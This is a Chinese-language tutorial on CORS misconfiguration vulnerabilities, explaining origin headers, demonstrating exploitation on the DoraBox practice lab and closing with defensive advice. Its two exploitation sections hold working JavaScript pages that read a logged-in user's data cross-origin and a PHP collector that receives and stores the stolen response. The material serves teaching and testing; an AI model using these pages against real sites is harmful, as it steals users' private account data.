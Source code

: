# 简介

网站如果存CORS跨域漏洞就会有用户敏感数据被窃取的风险。
跨域资源共享（CORS）是一种浏览器机制，可实现对位于给定域外部的资源的受控访问。它扩展了同源策略（SOP）并增加了灵活性。但是，如果网站的CORS策略配置和实施不当，它也可能带来基于跨域的攻击。CORS并不是针对跨域攻击（例如跨站点请求伪造（CSRF））的保护措施。

## 同源策略

这里我们必须要了解一下同源策略：同源策略是一种限制性的跨域规范，它限制了网站与源域之外的资源进行交互的能力。起源于多年前的策略是针对潜在的恶意跨域交互（例如，一个网站从另一个网站窃取私人数据）而制定的。通常，它允许一个域向其他域发出请求，但不允许访问响应。**源由通信协议，域和端口号组成**。
SOP是一个很好的策略，但是随着Web应用的发展，网站由于自身业务的需求，需要实现一些跨域的功能，能够让不同域的页面之间能够相互访问各自页面的内容。

# CORS跨域资源共享请求与响应

## 简单请求

跨域资源共享（CORS）规范规定了在Web服务器和浏览器之间交换的标头内容，该标头内容限制了源域之外的域请求web资源。CORS规范标识了协议头中Access-Control-Allow-Origin最重要的一组。当网站请求跨域资源时，服务器将返回此标头，并由浏览器添加标头Origin。
例如下面的来自站点 [http://example.com](http://example.com/) 的网页应用想要访问 [http://bar.com](http://bar.com/) 的资源：
`requests`

```http
1  GET /resources/public-data/ HTTP/1.1
2  Host: bar.com
3  User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-US; rv:1.9.1b3pre) Gecko/20081130 Minefield/3.1b3pre
4  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
5  Accept-Language: en-us,en;q=0.5
6  Accept-Encoding: gzip,deflate
7  Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
8  Connection: keep-alive
9  Referer: http://example.com/examples/access-control/simpleXSInvocation.html
10 Origin: http://example.com
response
```

```http
11  HTTP/1.1 200 OK
12  Date: Mon, 01 Dec 2020 00:23:53 GMT
13  Server: Apache/2.0.61 
14  Access-Control-Allow-Origin: *
15  Keep-Alive: timeout=2, max=100
16  Connection: Keep-Alive
17  Transfer-Encoding: chunked
18  Content-Type: application/xml
```

第 1~9 行是请求首部。在第10行的请求头 Origin 表明该请求来源于 [http://example.com](http://example.com/)。
第 11~18 行是来自于 [http://bar.com](http://bar.com/) 的服务端响应。响应中携带了响应首部字段 `Access-Control-Allow-Origin`（第 14 行）。使用 `Origin` 和 `Access-Control-Allow-Origin` 就能完成最简单的访问控制。本例中，服务端返回的 `Access-Control-Allow-Origin: *` 表明，该资源可以被任意外域访问。如果服务端仅允许来自 [http://example.com](http://example.com/) 的访问，该首部字段的内容如下：
`Access-Control-Allow-Origin: http://example.com`
如果跨域请求可以包含cookie的话，在服务器响应里应该有这一字段：
`Access-Control-Allow-Credentials: true`
这样的话攻击者就可以利用这个漏洞来窃取已经在这个网站上登录了的用户的信息（利用cookie）

# DroaBox靶场示例

<img src="图片\Snipaste_2023-03-16_15-18-31.png" alt="Snipaste_2023-03-16_15-18-31" style="zoom: 67%;" />

这个接口会返回已登录的用户的信息数据，通过访问该网页的响应我们看到这里可能存在 CORS 跨域资源共享漏洞

<img src="图片\Snipaste_2023-03-16_15-22-21.png" alt="Snipaste_2023-03-16_15-22-21" style="zoom: 80%;" />

## 利用方式一

接下来我们就可以建立一个恶意的js代码

```html
<!-- cors.html -->
<!DOCTYPE html>
<html>
<head>
 <title>cors exp</title>
</head>
<body>
<script type="text/javascript">
function cors() {  
var xhttp = new XMLHttpRequest();  
xhttp.onreadystatechange = function() {    
    if (this.status == 200) {    
    alert(this.responseText);     
    document.getElementById("demo").innerHTML = this.responseText;    
    }  
};  
xhttp.open("GET", "http://127.0.0.1:8081/DoraBox/csrf/userinfo.php");  
xhttp.withCredentials = true;  
xhttp.send();
}
cors();
</script>
</body>
</html>
```

访问这个页面就可以获取已登录的用户的信息

<img src="图片\Snipaste_2023-03-16_15-25-22.png" alt="Snipaste_2023-03-16_15-25-22" style="zoom:80%;" />

该恶意代码首先定义一个函数cors，以get形式访问目标网址，创建XMLHttpRequest对象为xhttp，通过ajax的onreadystatechange判断请求状态，如果请求已完成，且相应已就绪，则弹出返回文本。

## 利用方式二

首先在远程服务器上准备记录代码 `zf1yolo.php`：

```php
<?php
$data = $_POST['zf1yolo'];
if($data){
$myfile = fopen("data.html","w");
fwrite($myfile,$data);
fclose($myfile);
}
```

再构造恶意代码 `CorsEXP.html` ：

```html
</head>
<body>
<script>
function cors() {
var xhr = new XMLHttpRequest();
var xhr1 = new XMLHttpRequest();
xhr.onreadystatechange = function () {
if(xhr.readyState == 4){
alert(xhr.responseText)
var data = xhr.responseText;
xhr1.open("POST","http://127.0.0.1:8081/zf1yolo.php",true);
xhr1.setRequestHeader("Content-type","application/x-www-form-urlencoded");
alert(data);
xhr1.send("zf1yolo="+escape(data));
// body = document.getElementsByTagName('body')
// body[0].innerHTML = xhr.responseText;
}
}
//xhr.withCredentials = true;
xhr.open("GET",'http://127.0.0.1:8081/Dorabox/csrf/userinfo.php');
xhr.send();
}
cors();
</script>
</body>
</html>
```

当受害者浏览器此页面 CorsEXP.html 时，就会访问敏感信息，会把敏感信息发送到远程服务器上，创建 data.html 存储数据

<img src="图片\Snipaste_2023-03-16_15-45-10.png" alt="Snipaste_2023-03-16_15-45-10" style="zoom:80%;" />

# 漏洞利用技巧

在之前我们了解了一些关于CORS跨域资源共享通信的一些字段含义，
CORS的漏洞主要看当我们发起的请求中带有Origin头部字段时，服务器的返回包带有CORS的相关字段并且允许Origin的域访问。
一般测试WEB漏洞都会用上BurpSuite，而BurpSuite可以实现帮助我们检测这个漏洞。

首先是自动在HTTP请求包中加上Origin的头部字段，打开BurpSuite，选择Proxy模块中的Options选项，找到Match and Replace这一栏，勾选Request header 将空替换为Origin:example.com的Enable框。
当我们进行测试时，看服务器响应头字段里可以关注这几个点：
`最好利用的配置：`
Access-Control-Allow-Origin: [https://attacker.com](https://attacker.com/)
Access-Control-Allow-Credentials: true
`可能存在可利用的配置：`
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
`很好的条件但无法利用：`
下面这组配置组合虽然看起来很完美但是CORS机制已经默认自动禁止了这种组合，算是CORS的最后一道防线
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
`单一的情况`
Access-Control-Allow-Origin：*

**总结漏洞的原因：**

1：CORS服务端的 Access-Control-Allow-Origin 设置为了 *，并且 Access-Control-Allow-Credentials 设置为false，这样任何网站都可以获取该服务端的任何数据了。

2：**有一些网站的Access-Control-Allow-Origin他的设置并不是固定的，而是根据用户跨域请求数据的Origin来定的**。这时，不管Access-Control-Allow-Credentials 设置为了 true 还是 false。任何网站都可以发起请求，并读取对这些请求的响应。意思就是任何一个网站都可以发送跨域请求来获得CORS服务端上的数据。

# 防御方案 

1、不要配置"Access-Control-Allow-Origin" 为通配符“*”，而且更重要的是，要严格效验来自请求数据包中的"Origin" 的值。当收到跨域请求的时候，要检查"Origin" 的值是否是一个可信的源，还要检查是否为 null 

2、避免使用"Access-Control-Allow-Credentials: true" 

3、减少 Access-Control- Allow-Methods 所允许的方法
